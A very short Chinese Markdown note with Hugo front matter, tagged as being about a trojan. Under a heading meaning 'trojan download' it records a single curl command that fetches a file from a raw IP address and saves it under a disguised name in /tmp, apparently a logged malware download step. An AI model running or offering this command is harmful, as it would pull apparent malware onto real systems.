 ```yaml
---
#标题
title: "README"
#描述
description: ""
#创建日期
date: 2018-07-24
#修改日期
lastmod: 2018-07-24
#草稿
draft: false
#关键字
keywords: []
#标签
tags: [post,木马]
#分类
categories: [post,木马]
#作者
author: "邹慧刚"
---
```

### 木马下载

	curl http://185.10.68.202:5050/mrx -o /tmp/kube.lock